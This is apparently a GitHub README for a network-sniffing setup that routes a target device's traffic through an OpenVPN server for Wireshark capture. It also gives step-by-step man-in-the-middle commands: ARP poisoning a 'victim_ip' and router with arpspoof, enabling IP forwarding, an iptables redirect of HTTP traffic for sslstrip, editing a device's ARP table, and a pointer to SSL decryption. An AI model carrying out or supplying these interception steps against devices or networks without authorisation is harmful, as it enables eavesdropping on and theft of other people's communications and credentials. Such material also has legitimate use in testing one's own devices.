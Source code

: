 # Install

Make sure you have docker and wireshark installed.

#### Windows:
Download and install docker and wireshark from their websites.

#### Ubuntu:
```
apt-get install docker wireshark
```

#### Mac:
```
brew install docker wireshark
```

# Usage

Initialize the server for the first time.
```
./init.sh server_ip
```

Start the server.
```
./start.sh
```

Create a client.
```
./create_client.sh client_name
```

Transfer the client's configuration file to the target device.

Connect to the VPN server from the target device (search for OpenVPN on the Appstore).

Open wireshark and start sniffing.
```
./wireshark.sh
```

# Sniffing without VPN
It's possible to sniff the data after poisoning the arp table of the target device, although a few extra steps are required to allow the traffic to pass through.

#### Windows
Install Linux or get a Mac and continue.

#### Ubuntu
From: https://github.com/moxie0/sslstrip

Install arpspoof
```
apt-get install arpspoof
```

Flip your machine into forwarding mode (as root):
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Setup iptables to intercept HTTP requests (as root):
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
```

#### Mac
From http://iosmanbh.blogspot.com/2014/09/mac-os-x-arp-spoofing.html

Install macport

Install dsniff
```
sudo port selfupdate
sudo port install dsniff-devel
```

Find victim ip
```
arp -a
```

Open net forwarding,it will forward packets which recive to Internet Connection.
```
sudo sysctl -w net.inet.ip.forwarding=1
sudo sysctl -w net.inet.ip.fw.enable=1
```

Arpspoof Router
```
sudo arpspoof -i Yourineterface -t victim_ip router_ip
sudo arpspoof -i Yourineterface -t router_ip victim_ip
```

Example:
```
sudo arpspoof -i en0 -t 192.168.1.100 192.168.1.1
sudo arpspoof -i en0 -t 192.168.1.1 192.168.1.100
```

# Another way (requires root access to the device, but more stable)
Instead of arp spoofing, just login to the device and edit its arp tables.

To make sure the connection will still be up, we need to enable IP forwarding (through our sniffing computer) first.

#### Windows
Stop... just stop...

#### Mac
```
sudo sysctl -w net.inet.ip.forwarding=1
```

#### Linux
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Now log into the device and edit its arp tables using the following command:
```
arp -s [target] [my_computer_mac_address]
```

# Decrypt ssl communication
See [iOS SSL Sniffer](https://github.com/gkpln3/ios_ssl_sniffer)

